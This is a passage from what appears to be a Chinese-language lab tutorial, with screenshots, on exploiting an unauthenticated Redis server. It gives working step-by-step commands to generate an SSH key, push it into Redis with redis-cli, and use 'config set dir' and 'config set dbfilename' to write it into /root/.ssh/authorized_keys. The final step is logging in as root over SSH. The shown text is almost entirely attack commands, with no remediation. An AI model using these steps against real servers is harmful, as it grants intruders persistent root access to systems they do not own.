 ```
RSAAuthentication设置为yes，意思是设置开启使用RSA算法的基于rhosts的安全验证；
PubkeyAuthentication设置为yes，意思是设置开启公钥验证；
AuthorizedKeyFiles后面的目录，是你上传的公钥所保存的文件。
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuV4HMcib8158JpWvnVyeI6DuW5Sw8XRWDRumDoiaic3icRBBuKsNrek8DQw/640?wx_fmt=jpeg)

然后重启服务

```
systemctl restart sshd.service
```

2、生成密钥

在攻击机中使用自带的命令生成一对密钥。

```
ssh-keygen -t rsa
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuRYhqI5iayD7XnhiaiaaygodYtAUuHI0tkXiaAS7lJ7ag9ZBN7kgv9JiaD6g/640?wx_fmt=jpeg)

3、将公钥内容导入 key.txt 文件

```
(echo -e “\\n\\n”; cat /root/.ssh/id\_rsa.pub; echo -e “\\n\\n”) > key.txt
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktus6VjW987rMw6fAOTc3DeWcEwU6R65wEQfyrYrL9qPxCLGycs2qfyjA/640?wx_fmt=jpeg)

4、将生成的公钥内容设置给 redis 里的变量

```
cat /root/key.txt | redis-cli -h 192.168.168.133 -x set xxx
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktu0qZF3f0ETca0RMvQzmcic0RgerpdibibiafLwFulpU16btP56mxiccfHEbg/640?wx_fmt=jpeg)

5、在 /root/.ssh 目录下生成 authorized\_keys 文件。

```
redis-cli -h 192.168.168.133
config set dir /root/.ssh
config set dbfilename authorized\_keys
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktucgtxUWGwIT9tAvHNZGzZZAyk1q2nSbmKfvxstP8Xtp4C7vZrVoJW0w/640?wx_fmt=jpeg)

成功写入 authorized\_keys 文件。

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktu8BickgAKJaW1bsSpJefSqxiaibtJ0NuibqmoK0Yq3L928oUCuAmRasKWZA/640?wx_fmt=jpeg)

6、使用本地的私钥连接 ssh

ssh 192.168.168.133

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuzlL8cp0jGdtG4KJAYt1Siac9qkqwxicWyPnoNunHPjzX4v32A8hkZJSw/640?wx_fmt=jpeg)
